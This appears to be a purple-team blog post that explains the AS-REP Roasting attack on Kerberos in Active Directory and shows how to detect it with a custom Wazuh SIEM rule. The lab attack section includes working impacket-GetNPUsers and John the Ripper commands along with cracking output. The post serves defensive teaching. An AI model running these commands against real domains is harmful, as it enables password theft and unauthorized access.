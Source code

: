 ```yaml
---
title: AS-REP Roasting Detection with Wazuh - MITRE ATT&CK T1558.004
date: 2025-04-27 13:00:00 
last_modified_at: 2025-04-27 13:00:00
categories: [Purple Team,Active Directory & Kerberos Abuse]
tags: [active directory,asrep roasting,hashcat,kerberos,mitre att&ck,cybersecurity,penetration testing,purple team]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post5/kerberos.png
  alt: "AS-REP Roasting Attack - Kerberos Authentication Exploitation"
author: Ahmed BAHYA
excerpt: "Learn about AS-REP Roasting attack (MITRE ATT&CK T1558.004), a Kerberos authentication exploitation technique. Complete walkthrough with detection and response using Wazuh SIEM."
description: "Comprehensive guide to AS-REP Roasting attack (MITRE ATT&CK T1558.004). Learn how attackers exploit Kerberos pre-authentication, practical demonstration, and detection using Wazuh SIEM for cybersecurity defense."
keywords: [as-rep roasting, kerberos, active directory, mitre att&ck, t1558.004, cybersecurity, penetration testing, purple team, wazuh, siem, detection, response, hashcat, john the ripper]
canonical_url: https://b2hu.me/posts/AS-REP-Roasting-Attack
---
```

Hello everyone, thank you for being here. In this blog post, I will demonstrate and simulate a very classic yet interessting Active Directory and Kerberos abuse attack: the **AS-REP Roasting** attack. So, let's get started!
## What is Kerberos ?
Kerberos is a network authentication protocol designed to provide strong authentication for client-server applications using ticket-based cryptography. Developed by MIT, it is the default authentication mechanism in Microsoft Active Directory (AD) environments.
### Kerberos components :
Kerberos authentication involves three main components:

- **Key Distribution Center (KDC)** – The central authority that issues tickets, the KDC has two main components :
  - **Authentication Service (AS)** – Verifies user identity and issues Ticket-Granting Tickets (TGTs).
  - **Ticket-Granting Service (TGS)** – Grants service tickets for accessing resources.

- **Client** – The user or service requesting access.

- **Service Server** – The resource the client wants to access (e.g., a file share, SQL server).
### The Kerberos Authentication Flow (simplified) :

1. **AS-REQ** (Authentication Service Request) : – The client requests a TGT from the AS.

2. **AS-REP** (Authentication Service Reply) : – If pre-authentication is enabled, the AS verifies the user’s credentials and sends an encrypted TGT.

3. **TGS-REQ** (Ticket-Granting Service Request) : – The client sends the TGT to the TGS to request a service ticket.

4. **TGS-REP** (Ticket-Granting Service Reply) : – The TGS issues a service ticket for the requested resource.

5. **AP-REQ** (Application Request) : – The client presents the service ticket to the target server.

6. **AP-REP** (Application Reply) : – The server grants access.

this image below represents the kerberos flaw, as stated before :

![screen_1](/./media/post5/krbmsg.gif)

## AS_REP Roasting :
**AS-REP Roasting** exploits a weakness in Kerberos when **pre-authentication** is disabled for a user account. Without pre-authentication, an attacker can request a TGT (no password aka anyone can) for the user and receive an encrypted AS-REP message, which can be cracked offline to reveal the user’s password. Luckily in **Kerberos v5** the preauth is enabled by default and you have to manually disable it, the only reason i think sys admin would disble it is for backward compatibility with Kerberos v4 libraries that might be used by some legacy applications,those account by default do not require a password.
## ATTACK Simulation (AS-REP Roasting Attack Demonstration) :
In this practical demonstration, we'll simulate an **AS-REP Roasting** attack in our test environment and identify **key Indicators of Attack (IoAs)** that would alert defenders to such malicious activity.

**Lab Environment Details:**

- Target Domain: **iccn.ma**

- Vulnerable Account: **iccn.ma/jdoe** (pre-authentication disabled)
the **jdoe** user properties must be set up with preauth disabled just as follows : 

![screen_2](/./media/post5/jdoe_prop.png)

### Attack
for the asrep abuse we'll use the impacket script **GetNPUsers.py** script :
```shell
impacket-GetNPUsers -no-pass iccn.ma/jdoe -dc-ip 10.0.2.16 
```
after execuring this command we'll get the ASREP (TGT + Session key), the session key is the one that's encrypted wiht the user jdoe password's hash.
now we can move to offline cracking, we can use tools like hashcat or JTR (john the ripper), for this demo i'll user JTP with rockyou.txt password list, the command is like this : 
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt tgt.txt 
```
after a while (depending on the domain password policy), we can get this output :
```shell
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      ($krb5asrep$23$jdoe@ICCN.MA)     
1g 0:00:00:00 DONE (2025-04-28 23:28) 6.250g/s 211200p/s 211200c/s 211200C/s katten..redlips
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
as we can see the password of the **iccn/jdoe** user is **Password123** 
and just like that the attacker has now a foothold in your domaina and can perfom even more enumeration to find weakspots.


## Detect & respond to the Attack Using _Wazuh_

every TGT Request to the DC is logged with this **4768**, remember it because we'll need it later when we create detection rules in **_wazuh_**. You can see the event in windows event viewer just like this :

![screen_3](/./media/post5/windows_event.png)

The objective of this detection is to generate alerts whenever an **unauthorized IP** makes a **TGT request** to Domain Controller (DC) accounts that have **pre-authentication disabled**. To achieve this, we'll use Wazuh and its powerful capabilities for customizing detection rules and variables.

By default, Wazuh includes a rule for TGT requests; however, it is set at level 0, which means it does not generate alerts. Instead of modifying this built-in rule, we'll create a child rule that triggers whenever the parent rule fires. This approach gives us better control and flexibility over the detection logic.

Let’s analyze the following rule:

```xml
<var name="acc_no_pre_auth">jdoe</var>
<group name="security_event, windows,">
  <rule id="110002" level="12">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID">^4768$</field>
    <field name="win.eventdata.TargetUserName">$acc_no_pre_auth</field>
    <match name="win.eventdata.IpAddress" negate="yes">10.0.2.17</match>
    <options>no_full_log</options>
    <description>Possible ASREP Roast Attack from $(win.eventdata.IpAddress) to a no-preauth account: $(win.eventdata.TargetUserName)</description>
    <mitre>
        <id>T1558.004</id>
    </mitre>
    <info type="link">https://attack.mitre.org/techniques/T1558/004/</info>
  </rule>
</group>
````
This child rule (ID: 110002) is triggered when its parent rule (60103) is matched. It includes conditions aligned with our detection objective:

1. It only triggers if the **TargetUserName** matches an account with pre-authentication disabled, defined in the variable **$acc_no_pre_auth**.
2. It ensures the IpAddress is not equal to the legitimate IP address **10.0.2.17**.

The generated alert includes useful metadata like the MITRE ATT&CK technique ID and a link for further reading.

Next, we simulate the attack from a Linux machine with the IP address 10.0.2.20:

![screen_4](/./media/post5/ifconfig.png)
After using the Impacket script (as in the previous attack simulation). In the Wazuh Dashboard, we can observe that an alert was successfully generated:
![screen_5](/./media/post5/alert.png)
we can further inspect the content of the alert using drilldowns 
![screen_6](/./media/post5/desc_1.png)

## Conclusion
This detection strategy successfully leverages Wazuh’s rule customization and variable substitution capabilities to detect **ASREP Roasting** attacks. By creating a child rule that monitors for TGT requests to accounts with preauthentication disabled—only from unauthorized IPs— we ensure targeted and meaningful alerts without modifying Wazuh’s built-in rules. This approach enhances flexibility and maintains rule integrity. As demonstrated, a simulated ASREP Roasting attempt from an untrusted IP triggered a precise alert, confirming the effectiveness of this method in identifying potential lateral movement or credential dumping attacks in an Active Directory environment.

I hope You have enjoyed reading this blog post,f you have any questions or need help implementing a similar setup, feel free to ask!


